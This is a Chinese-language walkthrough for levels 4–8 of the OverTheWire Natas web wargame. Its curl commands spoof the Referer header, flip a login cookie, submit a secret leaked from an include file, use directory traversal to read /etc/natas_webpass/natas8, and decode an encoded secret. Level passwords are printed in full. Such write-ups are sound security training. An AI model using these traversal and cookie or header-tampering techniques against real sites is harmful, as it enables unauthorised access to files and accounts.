 提示：`Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"`，
因此用`-e`選項設置`Referer:`：

```bash
curl -su natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ http://natas4.natas.labs.overthewire.org/ -e http://natas5.natas.labs.overthewire.org/
```

### Level 5

```bash
curl -isu natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org
```

發現`Set-Cookie: loggedin=0`，嘗試用`-b`指定cookie：

```bash
curl -su natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org -b 'loggedin=1'
```

### Level 6

訪問`/index-source.html`發現可疑文件`includes/secret.inc`，訪問之得到`"FOEIUWGHFEEUHOFUOIU"`。

```bash
curl -su natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 -F 'secret=FOEIUWGHFEEUHOFUOIU' -F 'submit=1' http://natas6.natas.labs.overthewire.org
```

### Level 7

可以對`index.php`實施directory traversal attack：

```bash
curl -su natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 http://natas7.natas.labs.overthewire.org/\?page\=/etc/natas_webpass/natas8
```

### Level 8

`$encodedSecret`是下面函數編碼得到的：

```php
function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}
```

使用

```bash
echo 3d3d516343746d4d6d6c315669563362 | xxd -p -r | rev | base64 -d
```

解碼得到密碼，然後：

```bash
curl -su natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe -F secret=oubWYf2kBq -F submit=1 http://natas8.natas.labs.overthewire.org
```

